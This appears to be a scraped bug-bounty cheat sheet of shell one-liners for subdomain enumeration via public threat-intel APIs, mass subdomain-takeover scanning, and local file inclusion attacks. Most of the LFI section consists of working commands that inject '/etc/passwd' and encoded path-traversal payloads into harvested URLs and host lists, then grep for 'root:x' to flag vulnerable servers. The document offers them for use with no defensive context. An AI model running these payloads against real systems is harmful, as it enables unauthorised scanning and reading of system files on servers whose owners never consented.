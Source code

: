 ```
```
**from ThreatMiner**
```
curl -s "https://api.threatminer.org/v2/domain.php?q=target.com&rt=5" | jq -r '.results[]' |grep -o "\w.*target.com" | sort -u
```
**from Anubis**
```
curl -s "https://jldc.me/anubis/subdomains/target.com" | jq -r '.' | grep -o "\w.*target.com"
```
**from ThreatCrowd**
```
curl -s "https://www.threatcrowd.org/searchApi/v2/domain/report/?domain=target.com" | jq -r '.subdomains' | grep -o "\w.*target.com"
```
**from HackerTarget**
```
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"
```
--------
## Subdomain Takeover:
```
cat subs.txt | xargs  -P 50 -I % bash -c "dig % | grep CNAME" | awk '{print $1}' | sed 's/.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe
```
```
subjack -w subs -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```
-------------------------------
## LFI:
```
cat hosts | gau |  gf lfi |  httpx  -path ~/Desktop/WEB/wordlist/lfi.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```
```
waybackurls target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n";done
```
```
gau http://target.com | gf lfi | qsreplace "/etc/passwd" | httpx -t 250 -mr "root:x" 
```

```
findomain -t example.com | httpx -silent | waybackurls | grep "=" | qsreplace "/etc/passwd" | stringparse "root:x:0" | egrep -v Nothing
```

```
cat test | assetfinder -subs-only | httpx -nc -silent -p 80,443,8080,8443,8088,9000,9001,9002,9003 -path ~/Desktop/WEB/wordlist/lfi.txt -mr "root:x"
```
